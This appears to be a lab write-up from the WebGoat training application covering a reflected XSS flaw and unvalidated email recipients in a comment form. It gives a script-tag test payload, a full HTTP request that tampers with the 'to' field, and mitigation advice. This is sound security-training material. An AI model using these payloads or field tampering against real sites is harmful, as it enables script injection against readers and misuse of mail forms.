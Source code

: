 ## Vulnerability:

There are two issues:
1) There is now input validation of data provided by the user via HTML form so malicious input can be provided. In consequence reflected XSS attack is possible.
2) Email receipt is controlled by the user and not validated on server-side so the malicious user can send email to arbitrary person using given HTML form.

## Exploitation:

In 'Questions or Comments:' from send malicious javaScript code, for testing purposes:
```
<script>alert(1);</script>
```

This will be executed by webgoat admin when reading email.

To send malicious javaScript payload additionally modify 'to' field in HTML form. I've used 'Live HTTP headers' firefox add-on for this purpose, sending following request:

```
Host: webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://webgoat.hacking-lab.com/attack?Screen=47&menu=1700
Cookie: JSESSIONID=3B42A5BADB7D88877255309F1E2230D1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

subject=Comment+for+WebGoat&to=ciec%40owasp.org&msg=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&SUBMIT=Send%21
```

## Mitigation:

1) Use input validation library or implement own solution for defense against XSS attacks (OWASP ESAPI can be used or OWASP XSS Prevention Cheat Sheet as guide for implementing own solution).
2) It should be possible to send email only to webgoat@owasp.org field to in HTML form is not needed or it should be validated on server-side) 
